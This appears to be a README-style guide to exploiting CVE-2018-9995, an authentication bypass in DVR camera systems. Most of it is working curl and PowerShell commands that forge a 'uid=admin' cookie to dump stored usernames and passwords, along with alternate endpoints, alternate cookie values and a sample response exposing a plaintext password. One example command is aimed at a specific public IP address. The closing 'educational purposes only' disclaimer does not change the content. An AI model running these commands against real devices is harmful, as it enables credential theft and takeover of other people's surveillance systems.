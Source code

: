 # Manual Testing Guide

This guide provides instructions for manually testing DVR systems for the CVE-2018-9995 vulnerability without using the Python script.

## Prerequisites

- Basic understanding of command line tools
- curl installed on your system (comes pre-installed on most Linux/macOS systems, can be downloaded for Windows)

## Testing for the Vulnerability

### Basic Test

The simplest way to test if a DVR system is vulnerable is to use curl:

```bash
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

Replace `<dvr_host>` with the IP address or hostname of the target DVR, and `<port>` with the port number (usually 80, 8000, or 49152).

### Example

```bash
curl "http://59.26.65.69:49152/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

### Interpreting Results

#### Vulnerable System Response:

A vulnerable system will return a JSON response containing user credentials:

```json
{"result":0,"list":[{"uid":"admin","pwd":"Op1234567#","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
```

Key elements to look for:
- `"uid"`: Username (often "admin")
- `"pwd"`: Password
- `"role"`: User role level (usually 1 or 2 for admin)

#### Non-vulnerable System Response:

A non-vulnerable system might return:
- An error message
- An empty response
- A login page
- A permission denied message
- A different JSON structure without credentials

### Alternative Commands

For some DVR models, you might need to try different variations:

#### Alternative Endpoints:

```bash
# Try different endpoint
curl "http://<dvr_host>:<port>/users.cgi?action=list" -H "Cookie: uid=admin"
```

#### Different Cookie Values:

```bash
# Try different cookie
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: dvr_sessionid=admin"
```

### Windows Users

If you're using Windows and have curl installed, use the following syntax (with double quotes):

```
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

If you're using PowerShell:

```powershell
Invoke-WebRequest -Uri "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -Headers @{"Cookie"="uid=admin"}
```

## ⚠️ Important Note

This information is provided **STRICTLY FOR EDUCATIONAL PURPOSES ONLY**. Only test systems that you own or have explicit permission to test. Unauthorized testing is illegal. 